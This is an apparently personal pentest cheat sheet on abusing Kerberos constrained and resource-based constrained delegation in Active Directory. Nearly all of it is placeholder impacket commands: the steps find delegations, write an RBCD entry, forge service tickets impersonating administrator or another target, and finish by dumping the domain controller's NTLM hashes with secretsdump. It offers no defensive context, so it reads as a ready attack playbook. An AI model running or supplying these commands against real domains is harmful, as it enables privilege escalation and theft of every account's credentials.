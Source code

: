 ```yaml
---
title: "Constrained Delegation"
date: 2024-8-2
tags: ["constrained delegation", "active driectory", "ad", "Windows", "impacket", "rbcd"]
---
```


---
### Abuse #1: RBCD Attack

#### 1. Find delegation

```bash
sudo ntpdate -s <DC> && impacket-findDelegation '<DOMAIN>/<USERNAME>' -dc-ip <DC> -hashes :<HASH> -k
```

```bash
impacket-getST -spn <SERVICE>/<DC> -impersonate administrator '<DOMAIN>/<USERNAME>' -hashes :<HASH> -self
```

```bash
# Check forwardable flag
describeTicket.py <TICKET_1>.ccache
```

#### 2. RBCD

```bash
# Add delegation
impacket-rbcd '<DOMAIN>/<USERNAME>' -hashes :<HASH> -k -delegate-from <USERNAME> -delegate-to <TARGET_1> -action write -dc-ip <DC> -use-ldaps
```

```bash
# Check
sudo ntpdate -s <DC> && impacket-findDelegation '<DOMAIN>/<USERNAME>' -dc-ip <DC> -hashes :<HASH> -k
```

```bash
# Impersonate
impacket-getST '<DOMAIN>/<USERNAME>:<PASSWORD>' -spn <SERVICE>/<DC> -impersonate <TARGET_2>
```

```bash
# Check forwardable flag
describeTicket.py <TICKET_2>.ccache
```

#### 3. Impersonate

```bash
impacket-getST -spn <SERVICE>/<DC> -impersonate <TARGET_2> '<DOMAIN>/<TARGET_1>' -hashes :<HASH> -additional-ticket <TICKET_2>.ccache
```

#### 4. Secrets Dump

```bash
# Import ticket
export KRB5CCNAME='<TICKET_2>.ccache'
```

```bash
impacket-secretsdump -no-pass -k <DC> -just-dc-ntlm
```

<br>